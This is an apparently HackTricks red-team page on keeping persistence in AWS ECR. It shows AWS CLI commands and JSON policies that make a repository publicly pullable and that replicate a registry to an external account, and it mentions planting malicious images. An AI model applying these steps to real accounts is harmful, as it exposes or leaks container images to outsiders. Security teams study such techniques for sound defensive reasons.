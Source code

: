 # AWS - ECR Persistence

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## ECR

For more information check:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Hidden Docker Image with Malicious Code

An attacker could **upload a Docker image containing malicious code** to an ECR repository and use it to maintain persistence in the target AWS account. The attacker could then deploy the malicious image to various services within the account, such as Amazon ECS or EKS, in a stealthy manner.

### Repository Policy

Add a policy to a single repository granting yourself (or everybody) access to a repository:

```bash
aws ecr set-repository-policy \
    --repository-name cluster-autoscaler \
    --policy-text file:///tmp/my-policy.json

# With a .json such as

{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:BatchCheckLayerAvailability",
                "ecr:BatchGetImage",
                "ecr:GetDownloadUrlForLayer"
            ]
        }
    ]
}
```

{% hint style="warning" %}
Note that ECR requires that users have **permission** to make calls to the **`ecr:GetAuthorizationToken`** API through an IAM policy **before they can authenticate** to a registry and push or pull any images from any Amazon ECR repository.
{% endhint %}

### Registry Policy & Cross-account Replication

It's possible to automatically replicate a registry in an external account configuring cross-account replication, where you need to **indicate the external account** there you want to replicate the registry.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First, you need to give the external account access over the registry with a **registry policy** like:

```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
  "Sid": "asdasd",
  "Effect": "Allow",
  "Principal": {
    "AWS": "arn:aws:iam::947247140022:root"
  },
  "Action": [
    "ecr:CreateRepository",
    "ecr:ReplicateImage"
  ],
  "Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```

Then apply the replication config:

```bash
aws ecr put-replication-configuration \
     --replication-configuration file://replication-settings.json \
     --region us-west-2

# Having the .json a content such as:
{
	"rules": [{
		"destinations": [{
			"region": "destination_region",
			"registryId": "destination_accountId"
		}],
		"repositoryFilters": [{
			"filter": "repository_prefix_name",
			"filterType": "PREFIX_MATCH"
		}]
	}]
}
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

